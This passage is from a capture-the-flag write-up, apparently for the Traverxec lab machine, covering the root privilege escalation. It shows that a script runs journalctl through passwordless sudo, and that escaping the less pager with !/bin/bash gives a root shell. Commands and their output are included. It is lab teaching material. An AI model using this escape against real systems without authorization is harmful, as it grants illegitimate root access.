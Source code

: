 And there is our user proof.

### Root Privesc

There's a peculiar shell script in `/home/david/bin/server-stats.sh`.

```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Running this script does **not** prompt us for a sudo password. This is a fantastic sign. I checked out the `journalctl` page on [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/) and found that `journalctl` invokes the default pager, which is normally `less`. We can see that `less` has root privileges with: 

```bash
david@traverxec:~/bin$ ls -l `which less`
-rwxr-xr-x 1 root root 166664 May  7  2018 /usr/bin/less
```

We can use a standard `less` escape to get a `root` shell. I copy the `server-stats.sh` file to `server-stats.2.sh`, and remove the `| /usr/bin/cat` from the last line. I run the script with `$ ./server-stats.2.sh` and land in a `less` process. Typing `!/bin/bash` and hitting `ENTER` gives me a `root` shell.

```bash
root@traverxec:/home/david/bin# whoami
root
root@traverxec:/home/david/bin# wc /root/root.txt
 1  1 33 /root/root.txt
```
